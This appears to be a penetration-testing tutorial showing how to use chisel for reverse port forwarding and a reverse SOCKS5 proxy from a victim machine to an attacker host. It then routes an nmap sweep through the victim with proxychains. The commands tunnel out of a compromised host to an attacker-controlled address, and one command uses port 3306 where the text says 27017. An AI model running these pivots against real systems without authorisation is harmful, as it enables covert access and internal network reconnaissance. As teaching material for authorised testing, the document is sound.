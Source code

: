 # Port Forwarding

Port forwarding with `chisel` is quite simple. For example, if you discovered an open MongoDB service running on a remote computer and wanted to forward traffic from a local port to that remote MongoDB service. Here’s how you could achieve that with `chisel` :

## On the Attacking Machine

chisel server -p 3477 --reverse

-   `server`: run the server mode
-   `-p` : port for the server to listen on
-   `--reverse`: allows reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:2222:127.0.0.1:3306/tcp

-   `client` : run the client mode
-   `13.37.13.37:3477` : the IP address of the attacker’s machine and the port that was specified in the `chisel server` command
-   `R:2222:127.0.0.1:27017/tcp`: the `R` means we want to perform a reverse port forward; `2222` is the port number we want to use to route traffic through on the attacker’s machine; `127.0.0.1:27017` is the IP address/port we want to route our traffic to on the client’s machine; `/tcp` means we want to use the TCP protocol.

The previous commands will allow us to access the MongoDB service running locally on the remote machine on port 2222 on the attacking machine.

Now that we’ve seen how to perform a port forward with `chisel`, let’s create a SOCKS proxy so that we can route all of our traffic with the victim machine.

# SOCKS Proxies

SOCKS proxies capabilities was a recent addition to `chisels` capabilities which I think is awesome. Creating a SOCKS is extremely useful during a pentest, for example, because you can use a tool like Proxychains to route all of the traffic from your attacker tools through the victim’s machine — effectively making it appear as if traffic were originating from the victim’s machine. Here’s how we can set up a SOCKS proxy with `chisel`:

## On the Attack Machine

chisel server -p 3477 --socks5 --reverse

-   `-p`: port for the server to listen on
-   `--socks5`: start an internal SOCKS5 proxy
-   `--reverse`: allows for reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:5000:socks

-   `13.37.13.37:3477` : the IP address of the attacker machine and the port number specified in the `chisel server` command
-   `R:5000:socks:`the `R` means we want to perform a reverse port forward; `5000` will be the port on the attacker machine that will act as the entry point to our SOCKS5 proxy; and `socks` simply means we are using the SOCKS protocol.

## Proxychains

Configuring Proxychains to use our accessible SOCKS proxy simply requires that we add an entry to the bottom of `/etc/proxychains.conf` under `[ProxyList]` section. We need to specify the IP address and port of the SOCKS proxy we want to route our traffic through. In this case, we want to specify `socks5 127.0.0.1 5000` since our SOCKS proxy is listening on localhost port 5000:

![](https://miro.medium.com/max/700/1*mhBYMO2hZA0ZM5sCgwebLQ.png)

Now we can run the following command on the attacker machine to run Nmap through the victim's machine:

proxychains -q nmap -T4 -sn 10.10.10.0/24

And that’s all you need to know to harness the power of `chisel` — Happy Hacking!